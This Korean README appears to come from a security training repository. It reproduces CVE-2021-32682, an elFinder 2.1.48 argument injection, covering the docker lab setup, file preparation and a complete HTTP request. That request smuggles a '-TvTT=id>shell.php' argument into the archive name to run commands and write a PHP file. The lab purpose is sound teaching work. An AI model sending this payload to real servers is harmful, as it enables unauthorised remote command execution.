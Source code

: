 # elFinder ZIP 인수 삽입이 명령어 삽입으로 이어짐(CVE-2021-32682)

[한국어 버전(Korean version)]

elFinder는 jQuery UI를 사용하여 JavaScript로 작성된 웹용 오픈 소스 파일 관리자입니다.

elFinder 2.1.48 버전과 이전 버전에서 Arguments Injection이 발견되었습니다. 이 취약점을 통해 최소한의 구성이라도 elFinder PHP connector를 호스팅하는 서버에서 임의의 명령을 실행할 수 있습니다. 이 문제는 2.1.59에서 패치되었습니다. 반드시 인증 없이 노출되게 하지 마세요.

참고 자료:

* https://blog.sonarsource.com/elfinder-case-study-of-web-file-manager-vulnerabilities
* https://packetstormsecurity.com/files/164173/elfinder_archive_cmd_injection.rb.txt
* https://xz.aliyun.com/t/10739

## 취약점 환경
elFinder 2.1.48를 시작할려면 다음 명령을 실행하십시오:<br>
<pre><code>docker compose up -d</code></pre>
서버가 시작된 후 <code>http://your-ip:8080</code>에서 elFinder의 메인 페이지를 볼 수 있습니다.

## 취약점 재현
먼저, 이 취약점 흐름을 위해 2개의 파일을 준비헤야됩니다.<br><br>
<code>1.txt</code>라는 일반 텍스트 파일을 만듭니다.:<br>
![1](https://github.com/Tjdmin1/whitehat-school-vulhub/blob/main/elfinder/CVE-2021-32682/1.png)

마우스 오른쪽 버튼 클릭 메뉴에서 이 파일을 ZIP 형식으로 보관하고 보관된 파일 이름을 <code>2.zip</code>로 수정합니다.:
![2](https://github.com/Tjdmin1/whitehat-school-vulhub/blob/main/elfinder/CVE-2021-32682/2.png)

<code>1.txt</code>와 <code>2.zip</code>가 여기 준비되었습니다.:

![3](https://github.com/Tjdmin1/whitehat-school-vulhub/blob/main/elfinder/CVE-2021-32682/3.png)

그 다음, 임의의 명령을 실행하기위해 아래의 요청을 보냅니다.
<pre><code>
GET /php/connector.minimal.php?cmd=archive&name=-TvTT=id>shell.php%20%23%20a.zip&target=l1_Lw&targets%5B1%5D=l1_Mi56aXA&targets%5B0%5D=l1_MS50eHQ&type=application%2Fzip HTTP/1.1
Host: your-ip
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://localhost.lan:8080/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close


</code></pre>
